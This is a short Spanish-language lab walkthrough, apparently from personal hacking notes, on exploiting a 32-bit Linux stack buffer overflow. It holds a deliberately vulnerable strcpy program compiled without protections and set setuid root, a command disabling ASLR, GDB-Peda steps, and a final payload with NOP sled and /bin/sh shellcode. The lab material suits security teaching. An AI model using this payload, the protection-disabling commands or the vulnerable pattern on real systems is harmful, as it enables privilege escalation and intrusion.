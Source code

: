 **EXPLICACÍON DETALLADA EN** [Buffer Overflow 32 Bits Linux](https://hacknotes.github.io/buffer%20overflow/buff32linux/)

## Script
```bash
#include <stdio.h>
#include <string.h>

int vuln(char *str)
{
    char buf[64];
    strcpy(buf,str);
    printf("Cadena: %s\n",buf);
    return 0;
}
int main(int argc, char* argv[])
{
    vuln(argv[1]);
}
```

## Compilacion
 ```bash
gcc -g -fno-stack-protector -z execstack -m32 buff.c -o buff
```
 ## Permisos
 ```bash
 chown root:root buff
 chmod +s buff
 echo 0 > /proc/sys/kernel/randomize_va_space
 ```
 ## GDB-Peda
 Vemos los registros de la memoria
 
 **Comando:** 
 ```bash
 i r
 ```
 Crea cadenas aleatorias
 
 **Comando:**
 ```bash
 pattern arg 100
 ```
 Ejecuta el binario
 
 **Comando:**
 ```bash
 r
 ```
 En base a la cadena creada anteriormente, busca el tamaño exacto de bites antes de sobreescribir el EIP.
 A ese numero es el que multiplicamos nuestras **"A"** y le sumamos 4 **"B"** que serían 4 bits.
 
 **Comando:**
 ```bash
 pattern search
 ```
 Ver los ultimos registros de la pila
 
 **Comando:**
 ```bash
 x/100wx $esp
 ```
 Nobs (no operate code), que nos sirven a la hora de ejecutar nuestra shell
 ```bash
 \x90
 ```
 Shell
 ```bash
 "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
 ```
 Payload final
 ```bash
 $(python -c 'print "A"*76 + "\xa0\xef\xff\xbf" + "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```
